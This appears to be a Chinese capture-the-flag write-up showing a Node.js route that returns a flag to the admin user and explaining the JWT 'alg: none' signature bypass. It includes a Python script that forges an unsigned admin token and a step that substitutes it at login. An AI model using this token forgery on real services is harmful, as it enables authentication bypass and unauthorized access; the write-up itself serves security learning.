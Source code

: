```js
        if(status) {
            ctx.session.username = username;
        }

        ctx.rest({
            status
        });

        await next();
    },

    'GET /api/flag': async (ctx, next) => {
        if(ctx.session.username !== 'admin'){
            throw new APIError('permission error', 'permission denied');
        }

        const flag = fs.readFileSync('/flag').toString();
        ctx.rest({
            flag
        });

        await next();
    },

    'GET /api/logout': async (ctx, next) => {
        ctx.session.username = null;
        ctx.rest({
            status: true
        })
        await next();
    }
};

```
jwt验证，签名算法为HS256

![在这里插入图片描述](https://img-blog.csdnimg.cn/382001bbe6114428a7c6019ee4bd08a4.png)
![在这里插入图片描述](https://img-blog.csdnimg.cn/d029d6709bf246eaae3c24425198210a.png)
>原因：签名算法确保恶意用户在传输过程中不会修改JWT。但是标题中的alg字段可以更改为none。有些JWT库支持无算法，即没有签名算法。当alg为none时，后端将不执行签名验证。将alg更改为none后，从JWT中删除签名数据（仅标题+‘.’+ payload +‘.’）并将其提交给服务器。

[来源](https://blog.csdn.net/shinygod/article/details/124035397)
```python
import jwt
token = jwt.encode(
{
  "secretid": [],
  "username": "admin",
  "password": "123456",
  "iat": 1649380156
},
algorithm="none",key="").encode(encoding='utf-8')

print(token)

```
登陆时替换用户名与authorization
![在这里插入图片描述](https://img-blog.csdnimg.cn/7b9d6cf0d1a048bc82e9e2bc91951b3b.png)
